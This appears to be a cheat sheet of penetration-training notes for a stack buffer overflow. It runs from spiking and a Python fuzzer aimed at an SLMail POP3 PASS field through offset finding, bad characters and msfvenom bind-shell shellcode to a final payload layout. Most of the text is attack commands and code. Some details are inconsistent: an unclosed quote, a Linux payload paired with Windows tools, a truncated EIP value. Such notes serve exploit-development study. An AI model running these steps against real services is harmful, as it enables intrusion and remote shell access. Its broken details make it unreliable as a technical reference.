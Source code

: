 #BUFFER OVERFLOW

## 1- SPIKING

generic_send_tcp 10.10.10.10 9999 stats.spk 0 0

{stats.spk}
s_readline();
s_string("STATS );
s_string_variable("0")

RESULT: SEGMENTATION FAULT

## 2- TEST SIZES
``` 
#!/usr/bin/python
import socket
# Script for Fuzzing SLMail POP3 Service's PASS Parameter
counter = 100
while counter <= 3500:
	try:
		buffer = "A" * counter

		print "Fuzzing PASS with %s bytes" % len(buffer)

		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(30)
		connect=s.connect(('192.168.1.200',110))
		s.recv(1024)

		s.send('USER test\r\n')
		s.recv(1024)
	
		s.send('PASS ' + buffer + '\r\n')
	
		s.send('QUIT\r\n')
		s.close()
		counter = counter + 200
	except socket.timeout:
		print "\nCrash Byte of PASS Parameter: %s" %  (len(buffer)-200)
		exit(0)

```

RESULT: EIP OVERWRITE WITH "A" (41414141)

## 3- LOCATE OFFSET 

{PATTERN_CREATE}
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

RESULT: EIP VALUE

{PATTERN_OFFSET}
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q [EIP VALUE]
  
RESULT: OFFSET

## 4- VERIFY EIP CONTROL

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL VALUE]

RESULT: EIP OVERWRITE WITH "B" = 42424242

## 5- SHELLCODE SPACE

TEST SOME LENGTHS FOR "C":

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 1] ==> EIP IS NOT 42424242

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 2] ==> EIP 424242

RESULT: FILL SIZE

## 6- BADCHARS

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

"A"*OFFSET + "B"*4 + BADCHARS + C*[FILL SIZE]

## 7- GENERATE SHELLCODE

msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

## 8- LOCATE JMP JUMP

!mona modules (look for modules without protection)

## 9- COMPOSE FINAL EXPLOIT

JUNK + [A * 4368] + '\x97\x45\x13\x08' + '\x83\xc0\x0c\xff\xe0' + '\x90\'*20 + shellcode

SHELLCODE + [CHARS TO EIP] + JMP ESP + [JUMP TO BUFFER START]
